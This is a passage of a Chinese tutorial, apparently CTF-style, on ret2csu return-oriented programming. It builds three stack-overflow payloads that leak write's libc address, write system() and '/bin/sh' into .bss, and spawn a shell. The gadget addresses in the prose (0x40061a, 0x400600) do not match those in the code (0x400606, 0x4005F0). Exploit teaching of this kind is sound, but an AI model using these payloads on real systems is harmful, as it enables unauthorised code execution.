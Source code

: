 利用其中 0x40061a 开始的6行代码，我们可以控制寄存器``rbx,rbp,r12,r13,r14,r15``的值。随后可以利用 0x400600 开始的6行代码，将 r15 的值赋值给 rdx ， r14 的值赋值给 rsi ， r13 的值赋值给 edi 。随后就会调用call qword ptr [r12+rbx*8]。只要我们控制rbx的值为 0 ，精心构造栈上传入上述寄存器的值，就可以实现控制 pc ，调用我们想要的函数。

> 为什么需要控制 rbx 的值为0？
>
> 执行完 call qword ptr [r12+rbx*8] 之后，程序会对rbx+=1，然后对比 rbp 和 rbx 的值，如果相等就会继续向下执行并 ret 到我们想要继续执行的地址。所以为了让 rbp 和 rbx 的值相等，我们可以将 rbp 的值设置为1，因为之前已经将 rbx 的值设置为0了。

我们先构造 payload1 ，利用 write() 输出 write 在内存中的地址。注意我们的 gadget 是 call qword ptr [r12+rbx*8] ，所以我们应该使用 write.got 的地址而不是 write.plt 的地址。并且为了返回到原程序中，重复利用buffer overflow的漏洞，我们需要继续覆盖栈上的数据，直到把返回值覆盖成目标函数的main函数为止。

> 为什么使用的是 write.got 而不是 write.plt？
>
> write.plt 相当于 call write。执行了两个动作，将指针跳转到 write 真实地址；将返回地址压栈。
>
> write.got 仅将指针跳转到 write 真实地址。

payload1 构造如下：

```python
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0xdeadbeef) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)
```

当我们 exp 在收到 write() 在内存中的地址后，就可以计算出 system() 在内存中的地址了。接着我们构造 payload2 ，利用 read() 将 system() 的地址以及 /bin/sh 读入到 .bss 段内存中。

payload2 构造如下：

```python
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#read(rdi=0, rsi=bss_addr, rdx=16)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0xdeadbeef) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)
```

最后我们构造 payload3 ,调用 system() 函数执行 /bin/sh 。注意， system() 的地址保存在了 .bss 段首地址上， /bin/sh 的地址保存在了 .bss 段首地址+8字节上。

```python
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#system(rdi = bss_addr+8 = "/bin/sh")
payload3 =  "\x00"*136
payload3 += p64(0x400606) + p64(0xdeadbeef) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload3 += "\x00"*56
payload3 += p64(main)
```
